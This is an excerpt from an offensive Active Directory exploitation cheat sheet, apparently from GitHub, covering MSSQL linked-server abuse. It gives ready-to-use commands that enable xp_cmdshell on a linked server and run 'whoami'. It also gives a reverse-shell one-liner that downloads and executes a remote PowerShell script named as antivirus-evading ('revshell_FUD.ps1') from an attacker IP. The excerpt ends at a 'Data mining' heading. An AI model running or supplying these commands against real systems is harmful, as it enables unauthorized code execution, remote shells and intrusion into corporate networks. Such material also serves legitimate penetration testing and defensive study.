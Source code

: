 osql -E -S "db-mssql"  -Q "EXECUTE('sp_configure ''xp_cmdshell'',1;RECONFIGURE;') AT [msqlsrv.domain.local]"

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='327'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1264' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#executing-commands)Executing Commands

Get-SQLServerLinkCrawl  -Instance db-mssql -Query "exec master..xp_cmdshell "whoami'"

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='328'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1275' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#reverse-shell)Reverse shell

Get-SQLServerLinkCrawl  -Instance db-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:1433/revshell_FUD.ps1'')"'

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='329'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1286' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#data-mining)Data mining
